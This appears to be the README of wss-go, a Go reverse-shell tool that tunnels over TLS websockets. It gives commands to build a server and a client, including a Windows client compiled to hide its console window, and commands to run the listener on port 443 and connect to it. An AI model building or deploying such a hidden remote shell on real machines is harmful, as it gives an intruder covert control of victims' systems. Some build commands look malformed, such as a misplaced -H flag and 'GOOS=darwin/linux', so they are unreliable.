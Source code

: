 # wss-go
reverse websocket with ssl shell using golang.<br />
wss-go is a reverse shell using websocket with tls.<br />

## Usage
### Windows
```shell
go env -w GOOS=windows
go build -o wssServer server/server.go
go build -o wssClient -ldflags "-s -w" -H=windowsgui client/client.go
```
### Screenshots
![](images/serverMac.png)
![](images/clientMac.png)
### MacOS & Linux
```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```
### Screenshots
![](images/serverWindows.png)
## TODO
- RSA & AES